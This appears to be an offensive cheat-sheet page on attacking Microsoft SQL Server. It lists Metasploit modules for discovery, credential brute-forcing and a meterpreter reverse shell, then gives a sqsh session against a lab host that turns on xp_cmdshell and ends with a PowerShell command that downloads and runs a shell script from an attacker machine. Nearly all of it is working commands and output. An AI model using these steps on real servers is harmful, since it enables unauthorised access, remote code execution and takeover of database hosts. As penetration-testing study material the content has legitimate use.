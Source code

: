 ## [+] Attacking MSSQL with Metasploit

[>] Enumerate MSSQL Servers on the network:

msf > use auxiliary/scanner/mssql/mssql_ping\
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156\
Discover more servers using "Browse for More" via Microsoft SQL Server Management Studio.

[>] Bruteforce MSSQL Database:

msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login

[>] Enumerate MSSQL Database:

msf > use auxiliary/admin/mssql/mssql_enum

[>] Gain shell using gathered credentials

msf > use exploit/windows/mssql/mssql_payload\
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp


Connect to mssql with sqsh

```sh
sqsh -S 10.10.10.59 -U sa -P <password> 
```

Enable xp_cmdshell

```sh
[2] 10.10.10.59.master.2> xp_cmdshell 'whoami'
[2] 10.10.10.59.master.3> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the
security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more
information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

[7] 10.10.10.59.master.2> EXEC SP_CONFIGURE 'show advanced options', 1
[7] 10.10.10.59.master.3> reconfigure
[7] 10.10.10.59.master.4> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
[8] 10.10.10.59.master.1> EXEC SP_CONFIGURE 'xp_cmdshell', 1
[8] 10.10.10.59.master.2> reconfigure
[8] 10.10.10.59.master.3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
[9] 10.10.10.59.master.1> xp_cmdshell 'whoami'
[9] 10.10.10.59.master.2> go

[7] 10.10.10.59.master.1> xp_cmdshell 'powershell "IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.24:8000/shell.ps1\")"'
[7] 10.10.10.59.master.1> go
```

